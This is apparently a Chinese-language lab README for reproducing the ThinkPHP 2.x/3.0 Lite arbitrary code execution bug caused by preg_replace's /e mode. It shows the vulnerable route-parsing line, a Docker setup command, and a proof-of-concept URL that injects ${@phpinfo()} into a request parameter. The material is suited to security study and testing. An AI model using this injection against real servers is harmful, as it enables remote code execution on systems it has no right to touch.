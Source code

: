 # ThinkPHP 2.x 任意代码执行漏洞

ThinkPHP 2.x版本中，使用`preg_replace`的`/e`模式匹配路由：

```php
$res = preg_replace('@(\w+)'.$depr.'([^'.$depr.'\/]+)@e', '$var[\'\\1\']="\\2";', implode($depr,$paths));
```

导致用户的输入参数被插入双引号中执行，造成任意代码执行漏洞。

ThinkPHP 3.0版本因为Lite模式下没有修复该漏洞，也存在这个漏洞。

## 环境搭建

执行如下命令启动ThinkPHP 2.1的Demo应用：

```bash
docker compose up -d
```

环境启动后，访问`http://your-ip:8080/Index/Index`即可查看到默认页面。

## 漏洞复现

直接访问`http://your-ip:8080/index.php?s=/index/index/name/$%7B@phpinfo()%7D`即可执行`phpinfo()`：

![](1.png)
